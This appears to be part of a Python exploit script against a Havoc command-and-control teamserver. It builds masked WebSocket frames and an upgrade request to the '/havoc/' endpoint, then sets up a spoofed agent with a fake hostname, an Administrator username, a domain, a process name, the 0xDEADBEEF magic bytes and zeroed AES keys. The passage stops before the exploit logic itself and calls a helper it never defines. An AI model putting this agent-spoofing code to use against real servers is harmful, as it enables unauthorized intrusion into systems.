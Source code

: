 ```
    
def create_websocket_request(HOST, PORT):
	request = ( 
		f"GET /havoc/ HTTP/1.1\r\n"
		f"Host: {HOST}:{PORT}\r\n"
		f"Upgrade: websocket\r\n"
		f"Connection: Upgrade\r\n"
		f"Sec-WebSocket-Key: 5NUvQyzkv9bpu376gKd2Lg==\r\n"
		f"Sec-WebSocket-Version: 13\r\n"
		f"\r\n"
	).encode()
	return request
	
def build_websocket_frame(payload):
	payload_bytes = payload.encode("utf-8")
	frame = bytearray()
	frame.append(0x81)
	payload_length = len(payload_bytes)
	if payload_length <= 125:
		frame.append(0x80 | payload_length)
	elif payload_length <= 65535:
		frame.append(0x80 | 126)
		frame.extend(payload_length.to_bytes(2, byteorder="big"))
	else:
		frame.append(0x80 | 127)
		frame.extend(payload_length.to_bytes(8, byteorder="big"))

	masking_key = os.urandom(4)
	frame.extend(masking_key)
	masked_payload = bytearray(byte ^ masking_key[i % 4] for i, byte in enumerate(payload_bytes))
	frame.extend(masked_payload)
	return frame

parser = argparse.ArgumentParser()
parser.add_argument("-t", "--target", help="The listener target in URL format", required=True)
parser.add_argument("-i", "--ip", help="The IP to open the socket with", required=True)
parser.add_argument("-p", "--port", help="The port to open the socket with", required=True)
parser.add_argument("-A", "--user-agent", help="The User-Agent for the spoofed agent", default="Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36")
parser.add_argument("-H", "--hostname", help="The hostname for the spoofed agent", default="DESKTOP-7F61JT1")
parser.add_argument("-u", "--username", help="The username for the spoofed agent", default="Administrator")
parser.add_argument("-d", "--domain-name", help="The domain name for the spoofed agent", default="ECORP")
parser.add_argument("-n", "--process-name", help="The process name for the spoofed agent", default="msedge.exe")
parser.add_argument("-ip", "--internal-ip", help="The internal ip for the spoofed agent", default="10.1.33.7")

args = parser.parse_args()

# 0xDEADBEEF
magic = b"\xde\xad\xbe\xef"
teamserver_listener_url = args.target
headers = {
        "User-Agent": args.user_agent
}
agent_id = int_to_bytes(random.randint(100000, 1000000))
AES_Key = b"\x00" * 32
AES_IV = b"\x00" * 16
hostname = bytes(args.hostname, encoding="utf-8")
```